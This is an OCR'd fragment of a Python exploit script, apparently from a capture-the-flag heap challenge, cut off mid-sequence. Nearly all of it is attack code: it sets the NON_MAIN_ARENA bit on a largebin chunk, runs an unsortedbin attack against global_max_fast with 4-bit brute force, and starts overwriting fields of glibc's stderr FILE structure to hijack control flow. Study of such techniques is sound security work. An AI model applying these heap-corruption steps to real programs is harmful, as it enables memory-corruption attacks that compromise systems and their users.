 ```python

      rm("./test1/LARGE")
      cd("./test6")                       # connect to largebin
      echo("2","\r"*0x600)

      cd("../test1")
      echo("b",p64(0)+p64(0x460|0b101))   # set NON_MAIN_ARENA
      cd("../")
      print("[+] connected to large and set NON_MAIN_ARENA")



      # Unsortedbin Attack ###################################
      rm("test1/a")
      cd("./test1")
      echo("a",p64(0)+p16(gmf-0x10))
      echo("hoge","G"*0x450) # unsortedbin attack toward gmf
      cd("../")
      print("[!] Unsortedbin attack success??(4-bit entropy)")


      # Make unsortedbin's bk valid ########################
      rm("./test4/1")
      cd("test4")
      echo("1",p64(0x460))
      cd("../test5")
      echo("1","\r"*dumpedend_s)
      rm("../test4/2")
      cd("../")
      print("[*] made unsortedbin's bk valid")


      # Overwrite FILE of stderr ##########################

      # stderr_mode / 1
      rm("./test4/3")
      cd("./test4")
      echo("3",p64(0x1))
      cd("../test5")
      echo("2","\r"*stderrmode_s)
      cd("../")
      print("[1/5] overwrite FILE of stderr")

      # stdout_mode / 1
      rm("./test4/8")
      cd("./test4")
      echo("8",p64(0x1))
      cd("../test5")
      echo("3","\r"*stdoutmode_s)
      cd("../")
      print("[2/5] overwrite FILE of stderr")

      # stderr_flags / 0
      rm("./test4/4")           # NO NEED IN THIS CASE...
      cd("./test4")
      echo("4",p64(0x0))
      cd("../test5")
      echo("4","\r"*stderrflags_s)
      cd("../")
      print("[3/5] overwrite FILE of stderr")

      # stderr_IO_write_ptr / 0x7fffffffffffffff
      rm("./test4/5")
```